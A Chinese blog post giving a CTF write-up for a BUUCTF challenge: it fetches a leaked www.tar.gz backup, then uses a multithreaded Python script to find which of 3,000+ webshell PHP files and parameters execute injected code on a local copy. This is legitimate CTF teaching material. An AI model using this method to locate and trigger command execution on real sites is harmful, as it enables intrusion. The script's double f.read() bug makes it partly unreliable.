


<!--yml
category: 未分类
date: 2022-04-26 14:37:24
-->

# BUUCTF__[强网杯 2019]高明的黑客_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/106455979](https://blog.csdn.net/TM_1024/article/details/106455979)

## 前言

*   其实这题的唯一考点就是编写 python 脚本。
*   用了几天时间来看一下 python ，发现有些内容与我以前学的c语言差不多，只是换个形式而已，比如说 if 、for 、while 对文件操作等等。那最大的特点就是很多功能函数，开箱既用，只需要引用模块就行了。可能这就是面向对象编程的特点吧，你不知道它怎么实现的，你只知道它能干什么。
*   也有很多不一样的，比如说，迭代、元组、继承、异常处理等等。
*   还有一点是python2 和python3。有点差别，比如说 print 函数等等，python3 有些东西与 python2 不兼容。

## 题目

### 一、研究

*   打开就是网站被黑，F12也没什么内容。
    
*   `.tar.gz` 是 Linux 系统下的压缩包。访问`题目靶机网址/www.tar.gz` 得到文件。下载后，可以在 Linux 中 解压缩得到文件。不过也可以在 Windows 中打开，需要安装其它解压软件，推荐用 [7-zip](https://www.7-zip.org/) ，很强大的一种解压缩软件，可以直接提取文件。
*   解压文件发现是3000+毫无命名规律的php文件。丧心病狂。
*   不过随便访问一个发现文件都是存在的，而且有回显。
    
*   认真看这些文件都是 getshell 文件。能把传入的变量执行系统命令。
*   不过不可能都是有用的，随便打开几个会发现，传入的变量都变为空了，所以基本上无效。 
*   所以编写 python 脚本的目的就是寻找有用的 getshell 文件。
*   现在感觉，难度不是那么大了，不像刚开始，看wp都不懂。
*   基本思想，将文件都执行一遍，所以需要 web 环境。可以用 phpstudy 搭建 web 环境，将这些文件放在 www 根目录一个文件夹，遍历访问。
*   所以脚本需要遍历这些php文件，然后判断所有的参数是否可以执行。

### 二、解决

*   贴一个网上看到的一个比较好的脚本。python3。

```
import os
import requests
import re
import threading
import time
print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(100)  							  			
filePath = r"D:/phpstudy_pro/WWW/src"                   
os.chdir(filePath)													
requests.adapters.DEFAULT_RETRIES = 5								
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False											 
def get_content(file):
    s1.acquire()												
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:							
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}														
    params = {}														
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file                      
    req = session.post(url, data=data, params=params)			
    req.close()												
    req.encoding = 'utf-8'
    content = req.text

    if "xxxxxx" in content:									
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()												
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()												
                if "xxxxxx" in content:
                    break
        if flag == 1:													
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:															
   t = threading.Thread(target=get_content, args=(i,))
   t.start() 
```

*   尝试理解了一下。
*   首先遍历读取目录下所有文件名。
*   然后定义了一个函数，先逐个打开文件，然后再正则匹配获取所有的 GET 参数和 POST 参数，再访问 url 传入参数验证是否可用。
*   判断的方法是令传入的参数在访问页面显示一个内容`echo 'XXXXXX'`,然后再判断页面有没有这个内容，有，则传入的参数执行成功，没有就是无效的。
*   很巧妙的思路，速度还挺快，还有一点是先判断 getshell 文件能不能用，再判断哪个参数能用，如果 getshell 文件 ，不可用则直接下一个文件。很强。
*   而且有多线程。效率更高。

## 最后

*   水文一篇。
*   这个脚本的思想很值得学习。
*   刚开始接触 python，还不会写脚本，所以用的别人的脚本，还得慢慢学。
*   附上[题目链接](https://buuoj.cn/challenges#%5B%E5%BC%BA%E7%BD%91%E6%9D%AF%202019%5D%E9%AB%98%E6%98%8E%E7%9A%84%E9%BB%91%E5%AE%A2)
*   持续更新BUUCTF题解，写的不是很好，欢迎指正。
*   最后欢迎来访[个人博客](http://ctf-web.zm996.cloud/)